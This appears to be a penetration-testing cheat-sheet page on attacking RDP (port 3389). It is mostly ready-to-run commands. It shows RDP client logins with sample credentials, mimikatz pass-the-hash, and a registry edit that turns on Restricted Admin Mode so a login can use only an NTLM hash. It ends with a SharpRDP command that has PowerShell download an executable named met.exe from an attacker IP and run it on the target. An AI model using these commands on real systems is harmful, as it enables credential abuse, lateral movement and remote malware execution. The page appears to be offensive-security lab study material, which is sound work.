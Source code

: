 # (3389) RDP

### Tools for RDP

<table><thead><tr><th width="163"></th><th width="154">Remmina</th><th>xfreerdp</th><th>rdesktop</th></tr></thead><tbody><tr><td>Command</td><td>remmina</td><td>xfreerdp /u:user /p:password321 /v:10.10.202.204</td><td>rdesktop -u admin -p password123 10.10.202.204</td></tr></tbody></table>

<details>

<summary>Restricted Admin Mode</summary>

* Not enabled by default
* Allows Pass-the-hash RDP login if enabled

Enabled using:

```
mimikatz # sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:powershell
Enter-PSSession -Computer appsrv01
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

Then, login using PtH:

```
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
```

Or using Remmina:

![](<../.gitbook/assets/image (3) (1) (1) (1).png>)

Or using xfreerdp:

```
xfreerdp /u:admin /pth:2892D26CDF84D7A70E2EB3B9F05C425E /v:192.168.122.6 /cert-ignore
```

</details>

<details>

<summary>Headless RDP Connection</summary>

* SharpRDP: RDP without GUI

```
sharprdp.exe computername=appsrv01 command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/met.exe', 'C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\met.exe" username=corp1\dave password=lab
```

</details>
